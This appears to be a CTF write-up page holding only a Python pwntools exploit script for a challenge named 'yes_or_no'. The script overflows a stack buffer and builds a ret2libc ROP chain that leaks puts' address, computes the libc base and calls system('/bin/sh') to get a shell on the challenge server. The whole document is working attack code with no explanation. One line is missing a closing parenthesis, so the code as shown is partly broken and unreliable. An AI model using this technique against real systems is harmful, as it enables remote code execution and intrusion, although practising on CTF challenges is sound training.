 # Exploit
---
```python

from pwn import *

context.log_level = 'debug'

p = remote('ctf.j0n9hyun.xyz', 3009)
#p = process('./yes_or_no')
e = ELF('./yes_or_no')
libc = ELF('./libc-2.27.so')

puts_plt = e.plt['puts']
puts_got = e.got['puts']
main = e.symbols['main']

puts_offset = libc.symbols['puts']
system_offset = libc.symbols['system']
binsh_offset = list(libc.search('/bin/sh\x00'))[0]

# gadget
pr = 0x400883 
r = 0x40056e

dummy = 'A'*26

log.success('system_offset : 0x%x' % system_offset)
log.success('binsh_offset : 0x%x' % binsh_offset)

# memory leak & return to main

payload = dummy
payload += p64(pr)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

p.sendline('9830400')
p.recvuntil('Follow me\n')
p.sendline(payload)

puts_addr = u64(str(p.recv(6)) + '\x00\x00')

log.success('puts_addr : ' + str(hex(puts_addr))

# find the libc_base addr

libc_base = puts_addr - puts_offset
system_addr = libc_base + system_offset
binsh_addr = libc_base + binsh_offset

### exploit

payload = ''
payload += dummy
payload += p64(pr)
payload += p64(binsh_addr)
payload += p64(r)
payload += p64(system_addr)

p.sendline('9830400')
```